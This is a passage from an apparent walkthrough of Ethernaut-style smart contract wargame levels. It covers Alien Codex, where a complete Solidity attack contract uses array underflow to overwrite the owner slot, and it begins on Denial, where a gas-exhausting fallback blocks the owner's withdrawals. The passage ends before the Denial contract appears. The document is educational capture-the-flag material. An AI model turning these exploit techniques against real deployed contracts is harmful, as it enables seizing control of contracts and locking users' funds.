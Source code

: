 `keccack256(<storage slot where the array has been declared>)` gives the slot from where the array elements are stored. So, in this case we have used `keccack256(1)` since the codex array is defined in slot 1. So, based on the above understanding, we can easily find the index of the codex array where the owner variable is stored due to the overlapping. Now, using the index we can easily pass our wallet's address to the `revise()` function to overwrite the owner variable.

Find the hack contract below

```solidity
interface IAlienCodex {
    function makeContact() external ;
    function retract() external ;
    function revise(uint256 i, bytes32 _content) external;
}

contract hack {
    constructor(IAlienCodex target) {
        target.makeContact();
        target.retract();

        uint256 start = uint256(keccak256(abi.encode(uint256(1))));
        uint256 i;
        unchecked {
            i -= start;
        }

        target.revise(i, bytes32(uint256(uint160(msg.sender))));
    }
}
```

Note that I have used the unchecked block here, since `0-start` won't be possible as in the newer solidity versions, underflow is not allowed. But this can be achieved using the unchecked block.

___
## Level 20 [Denial]

This level is fairly simple. The goal of the challenge is to deny the owner withdrawing funds from the contract.

The only way to withdraw funds from the contract is to use the `withdraw()` function. When this function is called, the amount that is to be sent is calculated. Then, this amount is transferred to the partner which can be set using the `setWithdrawPartner()` function and after that the same amount is transferred to the owner too. So, to stop the owner from withdrawing funds, we have to somehow revert or stop the code execution after ether is sent to the partner. So, someone might think of applying the same exploit we applied for level 9 here, but that won't work because ether was transferred using the `transfer()` function there which reverts if the transaction fails. However here, `call()` has been used to transfer ether to the partner. `call()` always returns two values after the transaction is completed, the first one being a boolean value denoting if the transaction was successful or not, and it is a good practice to always perform this check, since even if the call fails, the transaction won't be reverted and any remaining code will also be executed. This is one of the primary differences between `transfer()` and `call()`. But, here one of denying the owner from withdrawing any ether is by consuming all of the gas in the call to the partner contract. So, in the hack contract, I have simply used an infinite while loop that will consume all the gas, inside the fallback function, so that it is triggered when ether is sent to the partner contract. Find the hack contract below -
